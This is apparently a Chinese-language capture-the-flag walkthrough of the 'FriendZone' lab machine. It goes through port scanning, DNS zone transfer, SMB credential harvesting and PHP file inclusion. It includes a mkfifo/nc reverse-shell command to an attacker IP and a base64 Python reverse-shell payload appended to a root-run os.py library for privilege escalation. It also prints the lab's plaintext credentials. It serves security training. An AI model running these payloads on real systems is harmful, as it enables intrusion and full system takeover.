


# README

## 信息收集

### nmap

```shell
sudo nmap -p- --min-rate 10000 10.10.10.123
Password:
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 16:31 CST
Nmap scan report for 10.10.10.123
Host is up (0.29s latency).
Not shown: 65528 closed tcp ports (reset)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
139/tcp open  netbios-ssn
443/tcp open  https
445/tcp open  microsoft-ds
```


```shell
sudo nmap -p 21,22,53,80,139,443,445 -sC -sV  10.10.10.123
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 16:33 CST
Nmap scan report for 10.10.10.123
Host is up (0.31s latency).

PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a96824bc971f1e54a58045e74cd9aaa0 (RSA)
|   256 e5440146ee7abb7ce91acb14999e2b8e (ECDSA)
|_  256 004e1a4f33e8a0de86a6e42a5f84612b (ED25519)
53/tcp  open  domain      ISC BIND 9.11.3-1ubuntu1.2 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.11.3-1ubuntu1.2-Ubuntu
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Friend Zone Escape software
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
443/tcp open  ssl/http    Apache httpd 2.4.29
|_http-title: 404 Not Found
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=friendzone.red/organizationName=CODERED/stateOrProvinceName=CODERED/countryName=JO
| Not valid before: 2018-10-05T21:02:30
|_Not valid after:  2018-11-04T21:02:30
|_http-server-header: Apache/2.4.29 (Ubuntu)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Hosts: FRIENDZONE, 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: FRIENDZONE, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: friendzone
|   NetBIOS computer name: FRIENDZONE\x00
|   Domain name: \x00
|   FQDN: friendzone
|_  System time: 2023-09-14T11:33:23+03:00
|_clock-skew: mean: -59m58s, deviation: 1h43m53s, median: 0s
| smb2-time:
|   date: 2023-09-14T08:33:21
|_  start_date: N/A
| smb2-security-mode:
|   311:
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.72 seconds

```

### 21端口 vsftpd

```shell
searchsploit vsftp
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption           | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)           | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)           | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                         | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution                                | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)                   | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                                  | multiple/remote/49719.py
------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

没什么用的洞，也不能匿名登录。

### 53端口

尝试域传输漏洞，成功：

```shell
dig axfr @10.10.10.123 friendzone.red

; <<>> DiG 9.10.6 <<>> axfr @10.10.10.123 friendzone.red
; (1 server found)
;; global options: +cmd
friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
friendzone.red.		604800	IN	AAAA	::1
friendzone.red.		604800	IN	NS	localhost.
friendzone.red.		604800	IN	A	127.0.0.1
administrator1.friendzone.red. 604800 IN A	127.0.0.1
hr.friendzone.red.	604800	IN	A	127.0.0.1
uploads.friendzone.red.	604800	IN	A	127.0.0.1
friendzone.red.		604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 388 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: Thu Sep 14 17:06:35 CST 2023
;; XFR size: 8 records (messages 1, bytes 261)


```


再试`friendzoneportal.red`：

```shell
dig axfr @10.10.10.123 friendzoneportal.red

; <<>> DiG 9.10.6 <<>> axfr @10.10.10.123 friendzoneportal.red
; (1 server found)
;; global options: +cmd
friendzoneportal.red.	604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
friendzoneportal.red.	604800	IN	AAAA	::1
friendzoneportal.red.	604800	IN	NS	localhost.
friendzoneportal.red.	604800	IN	A	127.0.0.1
admin.friendzoneportal.red. 604800 IN	A	127.0.0.1
files.friendzoneportal.red. 604800 IN	A	127.0.0.1
imports.friendzoneportal.red. 604800 IN	A	127.0.0.1
vpn.friendzoneportal.red. 604800 IN	A	127.0.0.1
friendzoneportal.red.	604800	IN	SOA	localhost. root.localhost. 2 604800 86400 2419200 604800
;; Query time: 231 msec
;; SERVER: 10.10.10.123#53(10.10.10.123)
;; WHEN: Thu Sep 14 17:10:52 CST 2023
;; XFR size: 9 records (messages 1, bytes 281)
```

多发现了：

```shell
administrator1.friendzone.red
hr.friendzone.red
uploads.friendzone.red
friendzoneportal.red
admin.friendzoneportal.red
files.friendzoneportal.red
imports.friendzoneportal.red
vpn.friendzoneportal.red
```

添加到`/etc/hosts`里面：

```shell
10.10.10.123 administrator1.friendzone.red
10.10.10.123 hr.friendzone.red
10.10.10.123 uploads.friendzone.red
10.10.10.123 friendzoneportal.red
10.10.10.123 admin.friendzoneportal.red
10.10.10.123 files.friendzoneportal.red
10.10.10.123 imports.friendzoneportal.red
10.10.10.123 vpn.friendzoneportal.red
```

也可以写成：

```shell
10.10.10.123 administrator1.friendzone.red hr.friendzone.red uploads.friendzone.red friendzoneportal.red admin.friendzoneportal.red files.friendzoneportal.red imports.friendzoneportal.red vpn.friendzoneportal.red
```


### 80端口

dirsearch扫描结果：

```shell
[16:36:36] 200 -   11KB - /index.bak
[16:37:24] 200 -   13B  - /robots.txt
[16:37:27] 403 -  301B  - /server-status/
[16:37:27] 403 -  300B  - /server-status
[16:38:03] 200 -  747B  - /wordpress/
```

页面上有friendzoneportal.red的域名

### 445端口

```shell
searchsploit Samba
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
GoSamba 1.0.1 - 'INCLUDE_PATH' Multiple Remote File Inclusions           | php/webapps/4575.txt
Microsoft Windows XP/2003 - Samba Share Resource Exhaustion (Denial of S | windows/dos/148.sh
Samba 1.9.19 - 'Password' Remote Buffer Overflow                         | linux/remote/20308.c
Samba 2.0.7 - SWAT Logfile Permissions                                   | linux/local/20341.sh
Samba 2.0.7 - SWAT Logging Failure                                       | unix/remote/20340.c
Samba 2.0.7 - SWAT Symlink (1)                                           | linux/local/20338.c
Samba 2.0.7 - SWAT Symlink (2)                                           | linux/local/20339.sh
Samba 2.0.x - Insecure TMP File Symbolic Link                            | linux/local/20776.c
Samba 2.0.x/2.2 - Arbitrary File Creation                                | unix/remote/20968.txt
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)             | osx/remote/9924.rb
Samba 2.2.2 < 2.2.6 - 'nttrans' Remote Buffer Overflow (Metasploit) (1)  | linux/remote/16321.rb
Samba 2.2.8 (BSD x86) - 'trans2open' Remote Overflow (Metasploit)        | bsd_x86/remote/16880.rb
Samba 2.2.8 (Linux Kernel 2.6 / Debian / Mandrake) - Share Privilege Esc | linux/local/23674.txt
Samba 2.2.8 (Linux x86) - 'trans2open' Remote Overflow (Metasploit)      | linux_x86/remote/16861.rb
Samba 2.2.8 (OSX/PPC) - 'trans2open' Remote Overflow (Metasploit)        | osx_ppc/remote/16876.rb
Samba 2.2.8 (Solaris SPARC) - 'trans2open' Remote Overflow (Metasploit)  | solaris_sparc/remote/16330.rb
Samba 2.2.8 - Brute Force Method Remote Command Execution                | linux/remote/55.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (1)               | unix/remote/22468.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (2)               | unix/remote/22469.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (3)               | unix/remote/22470.c
Samba 2.2.x - 'call_trans2open' Remote Buffer Overflow (4)               | unix/remote/22471.txt
Samba 2.2.x - 'nttrans' Remote Overflow (Metasploit)                     | linux/remote/9936.rb
Samba 2.2.x - CIFS/9000 Server A.01.x Packet Assembling Buffer Overflow  | unix/remote/22356.c
Samba 2.2.x - Remote Buffer Overflow                                     | linux/remote/7.pl
Samba 3.0.10 (OSX) - 'lsa_io_trans_names' Heap Overflow (Metasploit)     | osx/remote/16875.rb
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                   | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Met | unix/remote/16320.rb
Samba 3.0.21 < 3.0.24 - LSA trans names Heap Overflow (Metasploit)       | linux/remote/9950.rb
Samba 3.0.24 (Linux) - 'lsa_io_trans_names' Heap Overflow (Metasploit)   | linux/remote/16859.rb
Samba 3.0.24 (Solaris) - 'lsa_io_trans_names' Heap Overflow (Metasploit) | solaris/remote/16329.rb
Samba 3.0.27a - 'send_mailslot()' Remote Buffer Overflow                 | linux/dos/4732.c
Samba 3.0.29 (Client) - 'receive_smb_raw()' Buffer Overflow (PoC)        | multiple/dos/5712.pl
Samba 3.0.4 - SWAT Authorisation Buffer Overflow                         | linux/remote/364.pl
Samba 3.3.12 (Linux x86) - 'chain_reply' Memory Corruption (Metasploit)  | linux_x86/remote/16860.rb
Samba 3.3.5 - Format String / Security Bypass                            | linux/remote/33053.txt
Samba 3.4.16/3.5.14/3.6.4 - SetInformationPolicy AuditEventsInfo Heap Ov | linux/remote/21850.rb
Samba 3.4.5 - Symlink Directory Traversal                                | linux/remote/33599.txt
Samba 3.4.5 - Symlink Directory Traversal (Metasploit)                   | linux/remote/33598.rb
Samba 3.4.7/3.5.1 - Denial of Service                                    | linux/dos/12588.txt
Samba 3.5.0 - Remote Code Execution                                      | linux/remote/42060.py
Samba 3.5.0 < 4.4.14/4.5.10/4.6.4 - 'is_known_pipename()' Arbitrary Modu | linux/remote/42084.rb
Samba 3.5.11/3.6.3 - Remote Code Execution                               | linux/remote/37834.py
Samba 3.5.22/3.6.17/4.0.8 - nttrans Reply Integer Overflow               | linux/dos/27778.txt
Samba 4.5.2 - Symlink Race Permits Opening Files Outside Share Directory | multiple/remote/41740.txt
Samba < 2.0.5 - Local Overflow                                           | linux/local/19428.c
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                        | multiple/remote/10.c
Samba < 3.0.20 - Remote Heap Overflow                                    | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                            | linux_x86/dos/36741.py
Sambar FTP Server 6.4 - 'SIZE' Remote Denial of Service                  | windows/dos/2934.php
Sambar Server 4.1 Beta - Admin Access                                    | cgi/remote/20570.txt
Sambar Server 4.2 Beta 7 - Batch CGI                                     | windows/remote/19761.txt
Sambar Server 4.3/4.4 Beta 3 - Search CGI                                | windows/remote/20223.txt
Sambar Server 4.4/5.0 - 'pagecount' File Overwrite                       | multiple/remote/21026.txt
Sambar Server 4.x/5.0 - Insecure Default Password Protection             | multiple/remote/21027.txt
Sambar Server 5.1 - Sample Script Denial of Service                      | windows/dos/21228.c
Sambar Server 5.1 - Script Source Disclosure                             | cgi/remote/21390.txt
Sambar Server 5.x - 'results.stm' Cross-Site Scripting                   | windows/remote/22185.txt
Sambar Server 5.x - Information Disclosure                               | windows/remote/22434.txt
Sambar Server 5.x - Open Proxy / Authentication Bypass                   | windows/remote/24076.txt
Sambar Server 5.x/6.0/6.1 - 'results.stm' indexname Cross-Site Scripting | windows/remote/25694.txt
Sambar Server 5.x/6.0/6.1 - logout RCredirect Cross-Site Scripting       | windows/remote/25695.txt
Sambar Server 5.x/6.0/6.1 - Server Referer Cross-Site Scripting          | windows/remote/25696.txt
Sambar Server 6 - Search Results Buffer Overflow (Metasploit)            | windows/remote/16756.rb
Sambar Server 6.0 - 'results.stm' POST Buffer Overflow                   | windows/dos/23664.py
Sambar Server 6.1 Beta 2 - 'show.asp?show' Cross-Site Scripting          | windows/remote/24161.txt
Sambar Server 6.1 Beta 2 - 'showini.asp' Arbitrary File Access           | windows/remote/24163.txt
Sambar Server 6.1 Beta 2 - 'showperf.asp?title' Cross-Site Scripting     | windows/remote/24162.txt
SWAT Samba Web Administration Tool - Cross-Site Request Forgery          | cgi/webapps/17577.txt
------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

samba4.7.6版本有点高，没有找到已存在的漏洞。

尝试smbmap：

```shell
smbmap -H 10.10.10.123

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.10.10.123:445	Name: 10.10.10.123        	Status: Authenticated
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	Files                                             	NO ACCESS	FriendZone Samba Server Files /etc/Files
	general                                           	READ ONLY	FriendZone Samba Server Files
	Development                                       	READ, WRITE	FriendZone Samba Server Files
	IPC$                                              	NO ACCESS	IPC Service (FriendZone server (Samba, Ubuntu))

```

general目录可读并且Development目录可读可写。

```shell
smbclient //10.10.10.123/general
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it
Password for [WORKGROUP\feng]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jan 17 04:10:51 2019
  ..                                  D        0  Tue Sep 13 22:56:24 2022
  creds.txt                           N       57  Wed Oct 10 07:52:42 2018
get
		3545824 blocks of size 1024. 1648244 blocks available
smb: \> get creds.txt
getting file \creds.txt of size 57 as creds.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit

cat creds.txt
creds for the admin THING:

admin:WORKWORKHhallelujah@#
```

读到了admin用户和密码，Development目录没有读到东西，但是可写非常可疑。

```shell
smbclient //10.10.10.123/Development
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it
Password for [WORKGROUP\feng]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Sep 14 16:52:52 2023
  ..                                  D        0  Tue Sep 13 22:56:24 2022

		3545824 blocks of size 1024. 1648244 blocks available
smb: \>
```

## 渗透各种域名站

将所有的域名写在test-url.txt里面，然后制造url：

```shell
for i in $(cat name);do echo https://$i >>url;done
for i in $(cat test-url.txt);do echo http://$i >>urls.txt;done
cat urls.txt
https://administrator1.friendzone.red
https://hr.friendzone.red
https://uploads.friendzone.red
https://friendzoneportal.red
https://admin.friendzoneportal.red
https://files.friendzoneportal.red
https://imports.friendzoneportal.red
https://vpn.friendzoneportal.red
http://administrator1.friendzone.red
http://hr.friendzone.red
http://uploads.friendzone.red
http://friendzoneportal.red
http://admin.friendzoneportal.red
http://files.friendzoneportal.red
http://imports.friendzoneportal.red
http://vpn.friendzoneportal.red
```

然后使用aquatone工具：

```shell
cat ~/tmp/urls.txt| ./aquatone
```

访问生成的html可以非常方便的看到这些站的情况。


https://admin.friendzoneportal.red/使用前面拿到的账号密码登录后显示不可用。

https://administrator1.friendzone.red/可以，进入后https://administrator1.friendzone.red/dashboard.php，是一个文件包含：

```shell
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/read=convert.base64-encode/resource=dashboard
```

可以读到源码，因此想办法利用文件上传。

https://uploads.friendzone.red/的文件上传是假的，看wp猜目录来读：

```shell
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=php://filter/read=convert.base64-encode/resource=../uploads/upload
```

```shell
<?php

// not finished yet -- friendzone admin !

if(isset($_POST["image"])){

echo "Uploaded successfully !<br>";
echo time()+3600;
}else{

echo "WHAT ARE YOU TRYING TO DO HOOOOOOMAN !";

}

?>

```

因此要想办法去利用可写的Development目录：

```shell
smbclient //10.10.10.123/Development
Can't load /opt/homebrew/etc/smb.conf - run testparm to debug it
Password for [WORKGROUP\feng]:
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (0.0 kb/s) (average 0.0 kb/s)
smb: \>
```

根据之前smbmap的信息：

```shell
Files                                             	NO ACCESS	FriendZone Samba Server Files /etc/Files
```

猜测Development在/etc/Development下，rce成功：



利用nc反弹shell：

```shell
0=system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.14.14 39876 >/tmp/f");
```

## 提权

然后在tmp目录下传上`linpeas.sh`并运行：

```shell
sh linpeas.sh -w
```

发现如下内容：



此外`/var/www/mysql_data.conf`有friend用户的密码，可以ssh登上去：

```shell
cat /var/www/mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

使用pspy列出了这样的进程：

```shell
2023/09/14 15:28:01 CMD: UID=0     PID=96133  | /usr/bin/python /opt/server_admin/reporter.py
2023/09/14 15:28:01 CMD: UID=0     PID=96132  | /bin/sh -c /opt/server_admin/reporter.py
2023/09/14 15:28:01 CMD: UID=0     PID=96131  | /usr/sbin/CRON -f
```

```shell
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address

#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''

#os.system(command)

# I need to edit the script later
# Sam ~ python developer
```

说明这是个定时任务，定时执行这么个脚本，而且调用了可控的`os.py`，

因此往os.py里面写一句话即可：

```shell
echo "aW1wb3J0IHB0eQppbXBvcnQgc29ja2V0CgpzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQsc29ja2V0LlNPQ0tfU1RSRUFNKQpzLmNvbm5lY3QoKCIxMC4xMC4xNC4xNCIsMzk4NzcpKQpkdXAyKHMuZmlsZW5vKCksMCkKZHVwMihzLmZpbGVubygpLDEpCmR1cDIocy5maWxlbm8oKSwyKQpwdHkuc3Bhd24oIi9iaW4vYmFzaCIpCnMuY2xvc2UoKQ=="|base64 --decode >>/usr/lib/python2.7/os.py
```

```shell
nc -ln 39877
root@FriendZone:~# whoami
whoami
root
```


实际上linpeas.sh也可以代替pyps，里面也提到了：

```shell
root        498  0.0  0.3  31320  3268 ?        Ss   11:11   0:00 /usr/sbin/cron -f
root      96289  0.0  0.3  58792  3084 ?        S    15:40   0:00  _ /usr/sbin/CRON -f
root      96290  0.0  0.0   4628   860 ?        Ss   15:40   0:00  |   _ /bin/sh -c /opt/server_admin/reporter.py
root      96291  0.0  0.8  42272  8252 ?        S    15:40   0:00  |       _ /usr/bin/python /opt/server_admin/reporter.py
root      96292  0.0  0.4  21472  3940 pts/1    Ss+  15:40   0:00  |           _ /bin/bash
root      96307  0.0  0.3  58792  3084 ?        S    15:42   0:00  _ /usr/sbin/CRON -f
root      96308  0.0  0.0   4628   812 ?        Ss   15:42   0:00  |   _ /bin/sh -c /opt/server_admin/reporter.py
root      96309  0.0  0.8  42260  8008 ?        S    15:42   0:00  |       _ /usr/bin/python /opt/server_admin/reporter.py
root      96310  0.0  0.4  21472  3756 pts/2    Ss+  15:42   0:00  |           _ /bin/bash
root      99511  0.0  0.3  58792  3084 ?        S    15:44   0:00  _ /usr/sbin/CRON -f
root      99512  0.0  0.0   4628   880 ?        Ss   15:44   0:00      _ /bin/sh -c /opt/server_admin/reporter.py
root      99513  0.0  0.7  33804  7332 ?        S    15:44   0:00          _ /usr/bin/python /opt/server_admin/reporter.py
```

